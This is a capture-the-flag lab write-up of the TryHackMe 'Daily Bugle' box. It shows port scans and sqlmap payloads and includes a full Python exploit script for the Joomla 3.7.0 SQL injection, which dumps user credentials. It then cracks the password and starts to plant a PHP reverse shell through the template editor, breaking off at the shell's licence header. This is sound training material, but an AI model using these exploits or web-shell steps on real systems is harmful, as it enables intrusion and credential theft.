




[Links: [[TryHackMe Boxes]]
#linux 

# Daily Bugle
---
### System IP: 10.10.204.70
Note that we restarted the system and it changed it's IP to 10.10.187.235 for the Privilege escalation section.

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.204.70    | **TCP**: 22,80,3306

**Nmap Scan Results:**

```
# Nmap 7.91 scan initiated Sat Feb 13 18:41:25 2021 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/ttl0/autorecon/results/10.10.204.70/scans/_quick_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.204.70/scans/xml/_quick_tcp_nmap.xml 10.10.204.70
Nmap scan report for 10.10.204.70
Host is up, received user-set (0.096s latency).
Scanned at 2021-02-13 18:41:26 EST for 19s
Not shown: 997 closed ports
Reason: 997 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   syn-ack ttl 63 MariaDB (unauthorized)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 13 18:41:45 2021 -- 1 IP address (1 host up) scanned in 19.26 seconds
┌──(ttl0㉿kali)-[~/autorecon/results/10.10.204.70/scans]
└─$ ls
_commands.log       _manual_commands.txt  _quick_tcp_nmap.txt  tcp_3306_mysql_nmap.txt   tcp_80_http_index.html  tcp_80_http_nmap.txt    tcp_80_http_screenshot.png  _top_20_udp_nmap.txt
_full_tcp_nmap.txt  _patterns.log         tcp_22_ssh_nmap.txt  tcp_80_http_gobuster.txt  tcp_80_http_nikto.txt   tcp_80_http_robots.txt  tcp_80_http_whatweb.txt     xml
┌──(ttl0㉿kali)-[~/autorecon/results/10.10.204.70/scans]
└─$ cat _full_tcp_nmap.txt 
# Nmap 7.91 scan initiated Sat Feb 13 18:41:26 2021 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/ttl0/autorecon/results/10.10.204.70/scans/_full_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.204.70/scans/xml/_full_tcp_nmap.xml 10.10.204.70
adjust_timeouts2: packet supposedly had rtt of -202915 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -202915 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -225162 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -225162 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -147320 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -147320 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -206403 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -206403 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -204241 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -204241 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -202956 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -202956 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -475343 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -475343 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -144305 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -144305 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -171576 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -171576 microseconds.  Ignoring time.
Nmap scan report for 10.10.204.70
Host is up, received user-set (0.096s latency).
Scanned at 2021-02-13 18:41:26 EST for 222s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods: 
|_  Supported Methods: OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   syn-ack ttl 63 MariaDB (unauthorized)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.1 (94%), Linux 3.16 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Sony X75CH-series Android TV (Android 5.0) (92%), Linux 2.6.32 (92%), Linux 3.11 (92%), Linux 3.18 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/13%OT=22%CT=1%CU=33706%PV=Y%DS=2%DC=T%G=Y%TM=6028648
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=102%TI=Z%TS=A)SEQ(SP=FB%GCD=
OS:1%ISR=101%TI=Z%CI=RD%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11
OS:NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68D
OS:F%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.003 days (since Sat Feb 13 18:40:06 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=250 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   93.38 ms  10.9.0.1
2   119.04 ms 10.10.204.70

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 13 18:45:08 2021 -- 1 IP address (1 host up) scanned in 222.43 seconds

```

**Web Enumeration Results:**

Using gobuster we enumerate any hidden files

```
┌──(ttl0㉿kali)-[~/autorecon/results/10.10.204.70/scans]
└─$ cat *gobus*
/LICENSE.txt (Status: 200) [Size: 18092]
/README.txt (Status: 200) [Size: 4494]
/administrator (Status: 301) [Size: 242]
/bin (Status: 301) [Size: 232]
/cache (Status: 301) [Size: 234]
/cgi-bin/ (Status: 403) [Size: 210]
/cgi-bin/.html (Status: 403) [Size: 215]
/components (Status: 301) [Size: 239]
/configuration.php (Status: 200) [Size: 0]
/images (Status: 301) [Size: 235]
/includes (Status: 301) [Size: 237]
/index.php (Status: 200) [Size: 9290]
/index.php (Status: 200) [Size: 9290]
/language (Status: 301) [Size: 237]
/layouts (Status: 301) [Size: 236]
/libraries (Status: 301) [Size: 238]
/media (Status: 301) [Size: 234]
/modules (Status: 301) [Size: 236]
/plugins (Status: 301) [Size: 236]
/robots.txt (Status: 200) [Size: 836]
/robots.txt (Status: 200) [Size: 836]

```

The following URL reveals an admin logging page for Joomla
```
http://10.10.204.70/administrator/
```

Running nmap with script reveals the version of Joomla and that is vulnerable to a SQL injection

```
|_128 names had status 200
| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|       
|     Disclosure date: 2017-05-17
|     Extra information:
|       User: root@localhost
|     References:
|       https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
|_http-wordpress-enum: Nothing found amongst the top 100 resources,use --script-args search-limit=<number|all> for deeper analysis)
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php

```

Using searchsploit we can see the vulnerability:
```
└─$ searchsploit Joomla 3.7.0

Joomla! 3.7.0 - 'com_fields' SQL Injection| php/webapps/42033.txt
└─$ searchsploit -x php/webapps/42033.txt
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```

**SQL Injection enumeration using SQLmap:**

We use SQLmap to get more information
```
sqlmap -u "http://10.10.204.70/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

We retrieved the following:

```
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:02:44] [INFO] fetching database names
[20:02:44] [INFO] retrieved: 'information_schema'
[20:02:45] [INFO] retrieved: 'joomla'
[20:02:45] [INFO] retrieved: 'mysql'
[20:02:45] [INFO] retrieved: 'performance_schema'
[20:02:45] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

```

We enumerate over the databases:
```
sqlmap -u "http://10.10.204.70/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla --tables -p list[fullordering]
```

Here are the databases retrieved:
```
Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
| #__content_rating          |
| #__content_types           |
| #__content                 |
| #__contentitem_tag_map     |
| #__core_log_searches       |
| #__extensions              |
| #__fields_categories       |
| #__fields_groups           |
| #__fields_values           |
| #__fields                  |
| #__finder_filters          |
| #__finder_links_terms0     |
| #__finder_links_terms1     |
| #__finder_links_terms2     |
| #__finder_links_terms3     |
| #__finder_links_terms4     |
| #__finder_links_terms5     |
| #__finder_links_terms6     |
| #__finder_links_terms7     |
| #__finder_links_terms8     |
| #__finder_links_terms9     |
| #__finder_links_termsa     |
| #__finder_links_termsb     |
| #__finder_links_termsc     |
| #__finder_links_termsd     |
| #__finder_links_termse     |
| #__finder_links_termsf     |
| #__finder_links            |
| #__finder_taxonomy_map     |
| #__finder_taxonomy         |
| #__finder_terms_common     |
| #__finder_terms            |
| #__finder_tokens_aggregate |
| #__finder_tokens           |
| #__finder_types            |
| #__languages               |
| #__menu_types              |
| #__menu                    |
| #__messages_cfg            |
| #__messages                |
| #__modules_menu            |
| #__modules                 |
| #__newsfeeds               |
| #__overrider               |
| #__postinstall_messages    |
| #__redirect_links          |
| #__schemas                 |
| #__session                 |
| #__tags                    |
| #__template_styles         |
| #__ucm_base                |
| #__ucm_content             |
| #__ucm_history             |
| #__update_sites_extensions |
| #__update_sites            |
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```

We enumerate over the users:
```
sqlmap -u "http://10.10.204.70/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -T "#__users" --columns -p list[fullordering]
```

We answer yes to:
```
do you want to use common column existence check? [y/N/q] y
```

We get a results of tables:
```
5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| id       | numeric     |
| name     | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```


We dump the usernames:
```
sqlmap -u "http://10.10.204.70/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -T "#__users" -C username --dump -p list[fullordering]
[20:31:36] [INFO] fetching entries of column(s) 'username' for table '#__users' in database 'joomla'
[20:31:38] [INFO] retrieved: 'jonah'
Database: joomla
Table: #__users
[1 entry]
+----------+
| username |
+----------+
| jonah    |
+----------+
```


and passwords:
```
sqlmap -u "http://10.10.204.70/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -T "#__users" -C password --dump -p list[fullordering]
[20:32:22] [INFO] fetching entries of column(s) 'password' for table '#__users' in database 'joomla'
[20:32:25] [INFO] retrieved: '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Database: joomla
Table: #__users
[1 entry]
+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+--------------------------------------------------------------+

```

We retrieved the username jonah with hash:

```
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

**SQL Injection enumeration using a python script:**

Doing research we found a python script that will do enumeration for us:

```python
#!/usr/bin/python
from __future__ import print_function
import requests
import sys
import re
import argparse
import os
import random
import time
import binascii


def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
                print(" [!] Cannot find CSRF token")
                return None
        return match.group(1)


def parse_options():
        parser = argparse.ArgumentParser(description='Jooma Exploit')
        parser.add_argument('url', help='Base URL for Joomla site')
        return parser.parse_args()


def build_sqli(colname, morequery):
        return "(SELECT " + colname + " " + morequery + ")"

def joomla_370_sqli_extract(options, sess, token, colname, morequery):
        sqli = build_sqli("LENGTH("+colname+")", morequery)
        length = joomla_370_sqli(options, sess, token, sqli)
        if not length:
                return None
        length = int(length)
        maxbytes = 30
        offset = 0
        result = ''
        while length > offset:
                sqli = build_sqli("HEX(MID(%s,%d,%d))" % (colname, offset + 1, 16), morequery)
                value = joomla_370_sqli(options, sess, token, sqli)
                if not value:
                        print(" [!] Failed to retrieve string for query:", sqli)
                        return None
                value = binascii.unhexlify(value)
                result += value
                offset += len(value)
        return result


def joomla_370_sqli(options, sess, token, sqli):
        sqli_full = "UpdateXML(2, concat(0x3a," + sqli + ", 0x3a), 1)"
        data = {
                'option': 'com_fields',
                'view': 'fields',
                'layout': 'modal',
                'list[fullordering]': sqli_full,
                token: '1',
        }
        resp = sess.get(options.url + "/index.php?option=com_fields&view=fields&layout=modal", params=data, allow_redirects=False)
        match = re.search(r'XPATH syntax error:\s*&#039;([^$\n]+)\s*&#039;\s*</bl', resp.text, re.S)
        if match:
                match = match.group(1).strip()
                if match[0] != ':' and match[-1] != ':':
                        return None
                return match[1:-1]


def extract_joomla_tables(options, sess, token):
        tables = list()
        first = False
        offset = 0
        while True:
                result = joomla_370_sqli_extract(options, sess, token, "TABLE_NAME", "FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT " + str(offset) + ",1" )
                if result is None:
                        if first:
                                print("[!] Failed to retrieve first table name!")
                                return False
                        break
                tables.append(result)
                print("  -  Found table:", result)
                first = False
                offset += 1
        return tables


def extract_joomla_users(options, sess, token, table_name):
        users = list()
        offset = 0
        first = False
        print("  -  Extracting users from", table_name)
        while True:
                result = joomla_370_sqli_extract(options, sess, token, "CONCAT(id,0x7c,name,0x7c,username,0x7c,email,0x7c,password,0x7c,otpKey,0x7c,otep)", "FROM %s ORDER BY registerDate ASC LIMIT %d,1" % (table_name, offset) )       
                if result is None:
                        if first:
                                print("[!] Failed to retrieve user from table!")
                                return False
                        break
                result = result.split('|')
                print(" [$] Found user",result)
                first = False
                offset += 1
                users.append(result)
        return users


def extract_joomla_sessions(options, sess, token, table_name):
        sessions = list()
        offset = 0
        first = False
        print("  -  Extracting sessions from", table_name)
        while True:
                result = joomla_370_sqli_extract(options, sess, token, "CONCAT(userid,0x7c,session_id,0x7c,username)", "FROM %s WHERE guest = 0 LIMIT %d,1" % (table_name, offset) )
                if result is None:
                        if first:
                                print("[!] Failed to retrieve session from table!")
                                return False
                        break
                result = result.split('|')
                print(" [$] Found session", result)
                first = False
                offset += 1
                sessions.append(result)
        return sessions


def pwn_joomla_again(options):
        sess = requests.Session()

        print(" [-] Fetching CSRF token")
        resp = sess.get(options.url + "/index.php/component/users/?view=login") 
        token = extract_token(resp)
        if not token:
                return False

        # Verify that we can perform SQLi
        print(" [-] Testing SQLi")
        result = joomla_370_sqli(options, sess, token, "128+127")
        if result != "255":
                print(" [!] Could not find SQLi output!")
                return False

        tables = extract_joomla_tables(options, sess, token)

        for table_name in tables:
                table_prefix = table_name[:-5]
                extract_joomla_users(options, sess, token, table_name)
                extract_joomla_sessions(options, sess, token, table_prefix + 'session')

        return True

def print_logo():
        clear = "\x1b[0m"
        colors = [31, 32, 33, 34, 35, 36]

        logo = """                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/\'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 
"""
        for line in logo.split("\n"):
                sys.stdout.write("\x1b[1;%dm%s%s\n" % (random.choice(colors), line, clear))
                #time.sleep(0.05)

def main():
        options = parse_options()
        options.url = options.url.rstrip('/')
        print_logo()
        pwn_joomla_again(options)

if __name__ == "__main__":
    main()
```

We run it:
```
└─$ python2 joomla.py  http://10.10.187.235
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

** Cracking the hash **

We use John the ripper to crack the hash
```
echo "john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
?:spiderman123    
```

**Initial Shell Vulnerability Exploited:**

We login through the administrator panel at:
```
http://10.10.204.70/administrator
```

Using credentials: jonah:spiderman123
We check for the installed components:



We go to templates at `http://10.10.204.70/administrator/index.php?option=com_templates&view=templates` . We go to Beez3 details and files. We go to "new file" and create "create" a file called "shell" and choose the php extension. We add the following code to create a reverse shell. Save the file.
File contains this reverse shell code
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
